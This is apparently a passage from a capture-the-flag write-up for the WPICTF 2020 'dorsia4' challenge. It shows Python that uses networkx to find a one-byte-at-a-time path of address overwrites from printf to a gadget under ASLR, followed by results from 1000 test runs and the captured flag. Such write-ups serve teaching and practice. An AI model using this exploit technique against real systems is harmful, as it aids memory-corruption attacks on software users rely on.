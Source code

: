 This search takes about 1 second to complete.


#### Create a graph

```python
t=time.time()
print("building graph...",end="")
g = nx.Graph()
for i in range(len(addrs)):
    for j in range(i+1,len(addrs)):
        n = addrs[i] ^ addrs[j]
        if n & 0xffff == 0:
            g.add_edge(addrs[i], addrs[j])
            continue
        if n < 0x10000 and n & 0xff == 0:
            g.add_edge(addrs[i], addrs[j])
            continue
        if n < 0x100:
            g.add_edge(addrs[i], addrs[j])
            continue
print(int(time.time() - t),end="")
print(" seconds")
```

Leveraging `networkx` a graph is built by checking every pair for a single byte difference (_O(n<sup>2</sup>)_).

This takes about 12 seconds.


#### Compute the shortest path to the gadget

```python
try:
    _ = nx.shortest_path(g,source=(printf & 0xFFFFFF),target=(gadget & 0xFFFFFF),weight='weight')
except:
    print("\nno path for you!\n")
    sys.exit(1)

print("\npath found (len: " + str(len(_)) + "):\n")
for i in _:
    print(hex(i))
print()      
```

Again, leveraging `networkx`, the shortest path (Dijkstra) is computed from `printf` to our gadget by changing one byte at a time.  There is a 1/8 chance you'll get a `no path for you!` exception.  That is the nature of ASLR.  There's ~4% chance you'll get a SIGSEGV with a valid path.  Also the length of the path varies.  For the lulz I did 1000 tests (locally) with the following results:

```
# sed 's/SIGSEGV.*/SIGSEGV/' test1000.out | egrep "(path|SIG|WPI|dorsia4)" | sort | uniq -c | sort -r -n
   1000 [*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    839 b'WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}\n'
    773 path found (len: 14):
    123 no path for you!
     54 path found (len: 21):
     50 path found (len: 18):
     37 [*] Process './nanowrite' stopped with exit code -11 (SIGSEGV
```
